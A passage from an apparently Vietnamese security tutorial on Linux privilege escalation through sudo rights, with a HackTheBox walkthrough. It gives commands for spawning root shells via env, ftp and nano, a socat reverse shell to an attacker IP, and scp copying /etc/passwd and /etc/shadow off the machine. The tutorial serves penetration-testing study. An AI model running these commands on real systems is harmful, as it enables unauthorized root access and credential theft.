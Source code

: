 ```


### 3.4 Khi đặc quyền root được gán cho một số chương trình khác
Phía trên chúng ta đã thấy một số programs và những script khi được gán quyền root nguy hiểm như thế nào, tuy nhiên một số chương trình sau tưởng như vô hại nhưng cũng có thể làm được điều tương tự:
```
nghia ALL=(ALL) NOPASSWD: /usr/bin/env, /usr/bin/ftp, /usr/bin/scp, /usr/bin/socat
```

#### 3.4.1 Using Env
```
sudo env /bin/bash
```
![](https://images.viblo.asia/8504b7d5-a695-4420-aa46-dce389edb24a.png)

#### 3.4.2 Using FTP
```
sudo ftp
! /bin/bash
```
hoặc
```
sudo ftp
! /bin/sh
```
![](https://images.viblo.asia/70d745ae-a6c6-4c49-91bc-7f5ac262796e.png)
#### 3.4.3 Using Socat
Trên máy tấn công (của chúng ta), command:
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
```
Trên máy RCE được: 
```
sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.55.1:8888
```
Và root thành công:
![](https://images.viblo.asia/b022c7b4-4262-4863-8d15-cdbd97c27d44.png)
#### 3.4.4 Thông qua SCP
Qua SCP, chúng ta không thể có được bash shell, vì nó là một service dùng để chuyển file từ máy chủ cục bộ tới máy chủ từ xa qua port SSH (port 22). Do đó chúng ta có thể sử dụng nó để chuyển các file nhạy cảm như **/etc/passwd**, **/etc/shadow** tới máy chúng ta.
<br>
Command:
```
sudo scp /etc/passwd username@IP:~/
sudo scp /etc/shadow username@IP:~/
```
## 4. Ví dụ:
Đây là một machine mới trên [hackthebox](https://hackthebox.eu), việc exploit để có root flag sử dụng method Sudo Rights.

![](https://images.viblo.asia/b9476bba-a4ff-44e7-9909-eba8276ad556.png)
Chúng ta có thể thấy hiện tại user joanna có thể thực thi binary program **nano** với path được xác định: **/opt/priv** mà không cần nhập **password**.
<br>
Và đây là cách exploit nó, command:
```
sudo nano /opt/priv : Không yêu cầu password
Ctrl + R => Ctrl + X : Để Execute command
reset; sh 1>&0 2>&0 và ấn Enter ( như hình dùng 1>&0 cũng được )
```
![](https://images.viblo.asia/d68d4878-83c8-4710-9dad-70775ed19362.jpg)

Như vậy chỉ từ Sudo Rights, chúng ta có thể thiên biến vạn hóa nhiều cách để có được Root. Điều này là rất hữu ích và quan trọng, nhất là với những chứng chỉ về kiểm thử xâm nhập. Nơi mà tăng tối đa impact tới mục tiêu là điều cực kỳ quan trọng. <br><br>
```